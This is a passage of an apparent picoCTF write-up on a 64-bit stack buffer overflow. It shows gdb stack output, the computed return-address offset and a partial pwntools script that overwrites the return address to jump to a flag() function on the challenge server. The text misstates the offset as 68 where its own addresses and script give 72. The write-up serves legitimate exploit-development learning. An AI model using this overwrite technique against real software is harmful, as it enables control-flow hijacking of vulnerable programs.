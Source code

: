 ```
Starting program: /home/giorgos/Downloads/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to 64-bit. Give me a string that gets you the flag: 
AAAAAAA

Breakpoint 1, 0x00000000004012cf in vuln ()
(gdb) x/32x $rbp-64
0x7fffffffd9c0:	0x41414141	0x00414141	0xf7c8867f	0x00007fff
0x7fffffffd9d0:	0x00000006	0x0000009e	0xffffdb58	0x00007fff
0x7fffffffd9e0:	0x00000001	0x00000000	0x00000000	0x00000000
0x7fffffffd9f0:	0x00000000	0x00000000	0xf7ffd000	0x00007fff
0x7fffffffda00:	0xffffda30	0x00007fff	0x00401338	0x00000000
```
**Start of input:** 0x7fffffffd9c0
**Return address:** 0x7fffffffda08
**Distance:** 68
**Address of flag():** 0x000000000040123a

We cant use 0x00 inside our payload since it will stop our input preemptively (null byte), but it doesn't matter since we only need to overflow the first 3 bytes of the address, the 0x401338.

To generate the payload and for further operations, I will use the following Python script
```python
from pwn import *
import sys

def reverse_str(str):
    chunks = [str[i:i+2] for i in range(0, len(str), 2)]

    chunks.reverse()

    hex_bytes = ['\\x' + chunk for chunk in chunks]
    return ''.join(hex_bytes)


def construct_payload(dist, win_addr, encode=False):
    payload = "A" * dist
    payload+=reverse_str(win_addr)
    if encode:
        return payload.encode().decode('unicode_escape').encode('latin1')
    return payload


def send_to_server(payload):
    host = 'saturn.picoctf.net'
    port = 55261
    conn = remote(host, port)
    conn.recvline()
    conn.sendline(payload)
    response = conn.recvall()
    conn.close()
    return response

def get_flag(output):
    index = output.find("picoCTF{")
    result = output[index:]  # substring from pattern to end
    return result


def execute():
    win_addr = "40123a"
    dist=72
    payload = construct_payload(dist, win_addr, True)
```